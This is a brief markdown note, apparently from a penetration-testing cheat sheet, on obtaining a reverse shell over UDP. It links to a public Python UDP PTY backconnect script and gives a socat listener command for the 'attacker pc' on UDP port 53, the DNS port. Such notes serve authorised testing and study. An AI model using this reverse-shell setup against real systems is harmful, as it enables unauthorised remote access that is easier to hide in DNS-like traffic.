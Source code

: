 ## USING THE UDP TO GET THE SHELL
```` [https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py)

on attacker pc --> socat file:`tty`,raw,echo=0 udp-listen:53````
